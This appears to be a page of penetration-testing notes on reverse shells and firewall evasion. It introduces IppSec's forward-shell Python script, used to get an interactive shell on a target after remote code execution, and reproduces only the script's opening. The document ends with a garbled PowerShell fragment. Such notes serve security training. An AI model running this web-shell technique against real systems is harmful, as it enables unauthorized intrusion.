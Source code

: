 # Reverse shells

Reverse Shells

### Firewall Evasion

The below is a python script that is called forward shell and is developed by `ippsec` to bypass firewalls that have inbound and outbound filtering rules preventing you from acquiring fully interactive shell even after you have uploaded a working RCE.

The script has parts that need to be modified (It as has MODIFY THIS for the parts that need modification) according to your environment and scenario, namely:

* The URL of the vulnerable target. Specifically we should use the target URL over which we are uploading/executing the reverse shell. #Example is below

```
http://domain.com/upload.php
```

* The payload that you wish to execute. Normally the payload is part of the target URL we mentioned above. So in that case you can use the payload that comes after upload.php\` as an #example

The script content can be found in the below URL but I am pasting its contents here in case it is removed in the future

```
https://github.com/IppSec/forward-shell
```

`Example usage of this script`

```
https://www.youtube.com/watch?v=hmtnxLUqRhQ&t=2610s
```

The script

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-
#
# Forward Shell Skeleton code that was used in IppSec's Stratosphere Video
# -- https://www.youtube.com/watch?v=uMwcJQcUnmY
# Authors: ippsec, 0xdf


import base64
import random
import requests
import threading
import time

class WebShell(object):

    # Initialize Class + Setup Shell, also configure proxy for easy history/debuging with burp
    def __init__(self, interval=1.3, proxies='http://127.0.0.1:8080'):
        # MODIFY THIS, URL
        self.url = r"http://10.10.10.56/cgi-bin/cat"
        self.proxies = {'http' : proxies}
        session = random.randrange(10000,99999)
        print(f"[*] Session ID: {session}")
        self.stdin = f'/dev/shm/input.{session}'
        self.stdout = f'/dev/shm/output.{session}'
        self.interval = interval

        # set up shell
        print("[*] Setting up fifo shell on target")
```

[Text.Encoding]: :ASCII)) .ReadToEnd() ;"